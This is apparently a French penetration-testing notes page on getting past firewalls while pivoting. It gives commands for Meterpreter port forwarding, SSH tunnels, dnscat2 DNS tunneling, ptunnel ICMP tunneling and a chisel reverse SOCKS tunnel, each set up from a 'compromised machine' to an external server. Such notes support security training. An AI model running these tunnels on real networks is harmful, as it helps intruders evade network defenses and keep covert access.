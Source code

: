 # 🛡️ Contournement de Firewall

[← Retour au pivoting](README.md) | [← Table des matières](../README.md)

## 📋 Table des Matières
- [Techniques de Base](#techniques-de-base)
- [Port Forwarding](#port-forwarding)
- [Tunneling DNS](#tunneling-dns)
- [Tunneling ICMP](#tunneling-icmp)
- [Protocoles Autorisés](#protocoles-autorisés)

## Techniques de Base

### Identification des restrictions
```bash
# Test de connectivité sortante
curl http://google.com
wget http://example.com

# Test de ports sortants
nc -v external_ip 80
nc -v external_ip 443
nc -v external_ip 53
```

### Ports couramment autorisés
- **80/HTTP** : Trafic web standard
- **443/HTTPS** : Trafic web chiffré
- **53/DNS** : Résolution de noms
- **25/SMTP** : Email sortant
- **21/FTP** : Transfert de fichiers

## Port Forwarding

### Via Meterpreter
```bash
# Redirection de port local
portfwd add -l 8080 -p 80 -r target_interne

# Redirection de port distant
portfwd add -L 0.0.0.0 -l 8080 -p 80 -r target_interne

# Liste des redirections actives
portfwd list

# Suppression d'une redirection
portfwd delete -l 8080
```

### Via SSH (si disponible)
```bash
# Tunnel local (port local vers port distant)
ssh -L 8080:target_interne:80 user@pivot_machine

# Tunnel distant (port distant vers port local)
ssh -R 8080:localhost:80 user@external_server

# Tunnel dynamique (proxy SOCKS)
ssh -D 9050 user@pivot_machine
```

## Tunneling DNS

### Outils recommandés
- **dnscat2** : Tunnel bidirectionnel via DNS
- **iodine** : Tunnel IP via DNS
- **dns2tcp** : Tunnel TCP via DNS

### Exemple avec dnscat2
```bash
# Serveur (machine externe)
dnscat2-server example.com

# Client (machine compromise)
dnscat2-client example.com
```

## Tunneling ICMP

### Avec ptunnel
```bash
# Serveur (machine externe)
ptunnel -x password

# Client (machine compromise)
ptunnel -p proxy_ip -lp 8080 -da target_ip -dp 80 -x password
```

## Protocoles Autorisés

### HTTP/HTTPS Tunneling
```bash
# Tunnel via HTTP avec chisel
# Serveur
chisel server --port 8080 --reverse

# Client
chisel client server_ip:8080 R:9050:socks
```

### SMTP Tunneling
```bash
# Si SMTP sortant est autorisé
# Utiliser des outils comme smtp-tunnel
```

### Références
- [Chisel](chisel.md)
- [Ligolo-ng](ligolo-ng.md)
- [SSH Tunneling](ssh-tunneling.md)